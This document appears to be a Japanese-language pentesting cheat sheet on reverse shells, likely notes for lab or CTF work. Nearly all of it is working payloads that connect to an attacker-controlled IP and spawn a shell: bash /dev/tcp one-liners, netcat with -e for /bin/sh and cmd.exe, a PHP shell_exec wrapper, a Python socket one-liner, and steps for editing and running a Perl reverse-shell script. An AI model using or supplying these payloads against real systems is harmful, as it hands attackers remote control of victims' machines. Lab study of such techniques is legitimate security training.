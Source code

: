 # Reverse Shell

[toc]

## ncリバースシェル

```
bash -i >& /dev/tcp/192.168.11.146/4444 0>&1
```

```
bash -c 'bash -i >& /dev/tcp/10.10.16.2/4444 0>&1'
```

```
nc -nv 10.10.14.30 4444 -e /bin/sh
nc -nv 10.10.14.30 4444 -e cmd.exe
```



## phpリバースシェル

https://github.com/ivan-sincek/php-reverse-shell

↑windowsとlinuxどちらにも対応していてよい

#### 上記PHPのリバースシェルがエラーになる場合

利用できる関数が制限されている場合がある。phpinfo()関数を呼び出すことで確認が可能

![image-20230204155710137](img/reverseshell/image-20230204155710137.png)

![image-20230204155718698](img/reverseshell/image-20230204155718698.png)

そのような場合簡易版のPHPもリバースシェルとしてよく使える

#### shellコマンドでリバースシェルを張る場合

```php
<?php
shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.119.167/1234 0>&1'");
?>
```



## pythonリバースシェル

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

```bash
/usr/bin/python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.167",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```



## perl

* 攻撃対象ホストでperlがあることを確認

  ```
  which perl
  whereis perl
  ```

* `/usr/share`からリバースシェルをコピーする

  ```bash
  cp /usr/share/webshells/perl/perl-reverse-shell.pl alpha-shell.pl
  ```

* ipとportを書き換える

  ```bash
  sed -i 's/my $ip = .*;/my $ip = "192.168.119.167";/; s/my $port = .*;/my $port = 444;/' alpha-shell.pl
  ```

* 実行する

  ```
  /usr/bin/perl /tmp/alpha-shell.pl
  ```

  
